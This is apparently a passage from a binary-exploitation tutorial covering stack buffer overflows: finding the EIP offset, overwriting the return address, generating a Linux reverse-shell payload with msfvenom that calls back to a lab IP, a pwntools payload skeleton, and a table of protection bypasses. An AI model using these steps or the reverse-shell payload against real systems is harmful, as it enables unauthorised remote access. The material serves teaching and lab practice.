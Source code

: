 **3. Find offset**

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP>
```

***

### V. 🧩 Gaining Control

Once you know the offset:

```bash
python3 -c "print('A'*offset + 'B'*4)" | ./vuln
```

If EIP = 0x42424242 (`BBBB`), you control execution.

***

### VI. 🧠 Injecting Shellcode

#### 🧩 Generate shellcode

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f python -b "\x00"
```

#### 💣 Inject into payload

```python
payload = b"A"*offset + eip + nop_sled + shellcode
```

#### ⚙️ Example Payload (Pwntools)

```python
from pwn import *
p = process('./vuln')
payload = b"A"*72 + p64(0xdeadbeef)
p.sendline(payload)
p.interactive()
```

***

### VII. 🧩 Bypassing Protections

| Protection       | Bypass Technique                                |
| ---------------- | ----------------------------------------------- |
| **NX / DEP**     | Use ROP to execute system calls                 |
| **ASLR**         | Leak addresses (format string / info leak)      |
| **Stack Canary** | Leak or brute-force canary                      |
| **PIE**          | Leak binary base and rebase addresses           |
| **RELRO**        | Partial → overwrite GOT entries; Full → use ROP |

